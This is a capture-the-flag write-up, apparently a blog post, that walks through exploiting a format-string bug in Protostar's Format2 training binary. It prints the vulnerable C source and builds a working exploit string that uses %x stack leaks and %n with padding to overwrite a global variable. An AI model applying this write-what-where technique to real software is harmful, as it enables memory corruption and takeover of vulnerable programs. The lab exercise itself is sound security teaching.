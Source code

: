 ```yaml
---
title: "How to Exploit a Format String Vulnerability"
layout: post
date: 2019-04-01 07:00
headerImage: true
projects: true
hidden: true
description: "This write-up teaches you how to solve the Format2 level on Protostar"
category: project
author: ioannis
externalLink: false
---
```


This write-up teaches you how to solve the [Format2](https://exploit-exercises.lains.space/protostar/format2/) level on Protostar.

To attempt this binary, you should be familiar with the stack. You should know what the stack looks like, and how it works. You should also understand the concept of memory addresses, how data is stored in variables, and how to access those variables.


Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];
  char flagBuffer[64];
  FILE *fp;

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  fp = fopen("./flag.txt", "r");

  if(target == 64) {
      printf("you have modified the target :)\n");

      fgets(flagBuffer, 64, (FILE*)fp);
      printf("flag: %s\n", flagBuffer);
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### Objective: Modify the target variable to equal 64 ###

format2.c uses fgets to receive 512 bytes from stdin. This prevents buffer overflows because fgets stops once it receives 512 bytes. What else can we try? If we look at `printf(buffer)` we can see that it prints whatever you supply to stdin without checking your string. What do you think would happen if you entered `%x %x %x`?

.

.

.

It would print out the hex values of whatever is on the stack. Since `%x` expects a parameter and parameters are stored on the stack it will just print the next value on the stack. So what? How will that help us change the value of `target`? Well, the `%n` format specifier is used to write the amount of printed characters into printf's corresponding parameter. For example, 

`printf("hi my name is %s%n", name, &len)` 

would put the value `14 + strlen(name)` into the variable `len`

With this information we can put the address of `target` on the stack and then write to it using the `%n` format specifier. How do we put the address of target onto the stack? First, we need to get its address. We can find it by running `objdump -t format2` in the format2r directory. Then we look for `target`. I found this line

`0804a048 g     O .bss   00000004              target` 

Aha! The address of target is `0x0804a048`! What can we do with it? We can put it on the stack and write to it with the `%n` format specifier! An easy way to put the address of `target` on the stack is to just put it in your exploit string. Before we do that though, we can make it easier on ourselves by using `aaaa` as the address we want to write to. This is better because it is easier to recognize `0x61616161` than `0x0804a048` in a sea of hex numbers. So now our python script that prints our exploit string should look like `python -c "print('aaaa' + '%x '*100)"`. This will put `0x61616161` on the stack and will print out the contents of the stack. Let's find our a's. 

`aaaa200 f7f3d580 f7f74000 f7f41f74 0 4c f7d68e88 0 0 0 0 0 0 0 f7f8a1b7 f7f43000 2cfba f7f867c9 f7f9cfb4 bee2a90c f7f8a186 0 61616161 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 804000a ff9422a4 
target is 0 :(`

As we can see, aaaa is printed at the beginning. This is because it is part of our string. Our string of a's is also printed again in hex. It is the 23rd element on the stack. We can select it specifically with the `$` addition to the format specifier. So `printf("aaaa%23$x")` should print out `aaaa0x61616161`. Your python script should now look like `python -c "print('aaaa' + '%23\$x')`. We need to include the `\` because it escapes the `$` character. Now if you run format2 with your exploit string you should get 

`aaaa61616161
target is 0 :(`

Now that we have isolated the address, let's replace it with the actual address of `target` instead of `0x61616161`. Our python script should look like `python -c "print('\x48\xa0\x04\x08' + '%23\$x')"`. If we run the program with that output we should get

`aaaa0804a048
target is 0 :(`

Let's write-what-where! Instead of `%x`, we'll use `%n` to actually write to `target`'s value. Simply replacing the x with an n, the output of the program changes to 

`H
target is 4 :(`
(If you are getting a segfault here, make sure that you are using python2)

We modified `target`!  However, we're not done yet.  How do we change the value to 64? Simply add 60 bytes of padding. 
`python -c "print('\x48\xa0\x04\x08' + '%60x' + '%23\$n')"`
Viola! You have modified the target :)

